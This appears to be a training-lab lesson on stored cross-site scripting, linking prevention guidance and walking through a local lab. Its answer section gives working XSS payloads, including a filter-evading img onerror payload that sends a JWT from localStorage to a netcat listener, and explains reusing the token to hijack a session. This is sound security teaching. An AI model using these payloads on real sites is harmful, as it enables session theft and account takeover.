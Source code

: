 # XSS - Cross Site Scripting

XSS or Cross site scripting is one of the most common vulnerabilities and also one that plagues developers of client side applications in JavaScript. With so many frameworks out there, it becomes challenging to determine what is being rendered and how. A stored XSS attack is one in which an attacker is able to inject arbitrary JavaScript onto a page and have that JavaScript be rendered by another user.

This is especially dangerous on pages that have some type of authentication since authentication tokens can easily be sent to another site via JavaScript.

The best ways to prevent XSS are all cataloged here:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md

**TL;DR: Sanitize all values just before you render them.**

Example:
You have an HTML template you would like to render with a username value as a `data` attribute such as this:

```
<div data-username="<%= @username %>">
...
</div>
```

If the user is able to update their username value, which is stored on the server, they could adjust the HTML to run their own scripts on others' computers on your site:

```
"><script>alert('pwned!')</script><div class="
```


# Lab

Navigate to http://localhost:1337 and you'll be presented with a login page. Now that we have `rick`'s password, let's use that to log into the site. Let's try adding some comments and see what we can do.

<details>
  <summary>Answer</summary>

  It turns out that the comment field is only minimally sanitized before the page renders. This is extremely common especially when sites want to allow users to insert their own HTML for things like adding photos, customizing rich text documents like blogs or creating branded emails.

  As a test, what we can do is something like this:

  ```
  <script>alert('pwned')</script>
  ```

  We notice that the comment is not even rendered. We can open up the developer panel on the right and inspect the JavaScript for `index.js`. We notice that the developer only "sanitized" by removing the ablity for the script tag, but there are many other ways to execute an XSS attack.

  For a fairly comprehensive listing of how this can be achieved, have a look at: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

  Now let's try something a bit more nasty. An alert is silly and fun but what if you wanted to make a quick and easy credential grab after you execute an XSS vulnerability.

  In a terminal, let's start a `netcat` listener:

  * On Mac: `sudo nc -l 18200`
  * On Linux: `sudo nc -l -p 18200`
  * On Windows (as Administrator): `nc -l -p 18200`

  Now let's try to grab the session token from localStorage (this could just as easily be `document.cookie`)

  ```
  <img src="." onerror=$.get('http://localhost:18200/'+localStorage.jwt)>"
  ```

  Since that HTML doesn't have `<script>` in it, it passes and renders creating an HTTP request to your listener on your localhost that looks something like this:

  ```
  $ sudo nc -l 18200
  Host: localhost:18200
  Connection: keep-alive
  Access-Control-Request-Method: GET
  Origin: null
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.109 Safari/537.36
  Access-Control-Request-Headers: x-auth-token
  Accept: */*
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  ```

  That bit after options is the valid [jwt](https://jwt.io) token sent via the URL path which will allow access to the site. As an attacker, all you have to do is set your own `localStorage.jwt` value to that string in your browser and you're in without even needing to knowing the password. That being said, for most sessions, you'll only have access until the session has timed out, but for many sites, this is  plenty of time to do significant damage.

  **Followup Question** What are some ways you can think of to add security controls to prevent damage even if a session token is compromised?
</details>
